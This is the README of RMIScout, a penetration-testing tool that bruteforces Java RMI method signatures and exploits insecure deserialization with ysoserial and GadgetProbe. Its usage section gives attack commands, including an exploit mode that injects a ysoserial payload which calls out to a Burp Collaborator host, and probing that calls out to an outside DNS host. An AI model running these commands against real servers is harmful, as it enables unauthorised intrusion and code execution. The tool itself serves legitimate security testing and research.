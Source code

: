<p align="center">
  <img src="assets/RMIScout.png" width=600/>
</p>

#



![License](https://img.shields.io/badge/license-MIT-lightgrey.svg)
![Python version](https://img.shields.io/badge/java-8%2b-blue.svg)

### Description

RMIScout performs wordlist and bruteforce attacks against exposed Java RMI interfaces to safely guess method signatures without invocation.

On misconfigured servers, any known RMI signature using non-primitive types (e.g., `java.lang.String`), can be exploited by replacing the object with a serialized payload. This is a fairly common misconfiguration (e.g., VMWare vSphere Data Protection + vRealize Operations Manager, Pivotal tc Server and Gemfire, Apache Karaf + Cassandra)  as highlighted in  [An Trinh's 2019 Blackhat EU talk](https://i.blackhat.com/eu-19/Wednesday/eu-19-An-Far-Sides-Of-Java-Remote-Protocols.pdf).

RMIScout integrates with [ysoserial](https://github.com/frohoff/ysoserial/) and [GadgetProbe](https://github.com/bishopfox/gadgetprobe) to perform deserialization attacks against services incorrectly configuring process-wide serialization filters ([JEP 290](https://openjdk.java.net/jeps/290)).

<p align="center">
  <img src="assets/wordlist_attack.png" width=800/>
</p>

### Motivation

I wanted a tool to do the following tasks:
1. Provide wordlist and text-based bruteforce strategies instead of bruteforcing a 64-bit method hash.
2. Identify RMI methods without invoking them.
3. Provide a simple way to exploit the known issue of unsafe RMI parameter unmarshalling and integrate with ysoserial or payloads implementing `ysoserial.payloads.ObjectPayload`.
4. Integrate GadgetProbe to identify remote classes to help identify relevant software and construct gadget chains.

To start off your search, the included `lists/prototypes.txt` wordlist is a deduplicated wordlist from 15,000 RMI prototypes found in OSS projects across GitHub. Feel free to submit a PR to include more :)

### How it works

To identify but not execute RMI functions, RMIScout uses low-level RMI network functions and dynamic class generation to send RMI invocations with deliberately mismatched types to trigger remote exceptions. All parameters are substituted for a dynamically generated serializable class with a 255-character name assumed to not exist in the remote class path. For example:

Remote Interface:
```
void login(String user, String password)
```
RMIScout will invoke:
```
login((String) new QQkzkn3..255 chars..(), (String) new QQkzkn3..255 chars..())
```
If the class is present this will result in a remote `java.rmi.UnmarshalException` cased by the `ClassNotFoundException` or argument unmarshalling error without invoking the underlying method.

Read a [full technical writeup here](https://know.bishopfox.com/research/rmiscout).

### Usage

```
# Perform wordlist-attack against remote RMI service using wordlist of function prototypes
./rmiscout.sh wordlist -i lists/prototypes.txt <host> <port>

# Bruteforce using method wordlist and other options
./rmiscout.sh bruteforce -i lists/methods.txt -r void,boolean,long -p String,int -l 1,4 <host> <port>

# Swap object-derived types with the specified ysoserial payload and payload parameter
./rmiscout.sh exploit -s 'void vulnSignature(java.lang.String a, int b)' -p ysoserial.payloads.URLDNS -c "http://examplesubdomain.burpcollaborator.net" -n registryName <host> <port>

# Use GadgetProbe and a known signature to bruteforce classes on the remote classpath
./rmiscout.sh probe -s 'void vulnSignature(java.lang.String a, int b)' -i ../GadgetProbe/wordlists/maven_popular.list -d "examplesubdomain.burpcollaborator.net" -n registryName <host> <port>
```


### Building and Running

Use the included `rmiscout.sh` script to automatically build the project and as a convenient wrapper around `java -jar` syntax:
```bash
./rmiscout.sh wordlist -i lists/prototypes.txt <host> <port>
```

Alternatively, build the project manually and use traditional `java -jar` syntax:

```bash
# Manually build JAR
./gradlew shadowJar

java -jar build/libs/rmiscout-1.01-SNAPSHOT-all.jar wordlist -i lists/prototypes.txt <host> <port>
```


### Try It out
Run the demo RMI server. Try out the included `demo/wordlist.txt`.
```bash
cd demo
./start.sh
```
### Author

Twitter: [@BumbleSec](https://twitter.com/theBumbleSec)

GitHub: [the-bumble](https://github.com/the-bumble/)

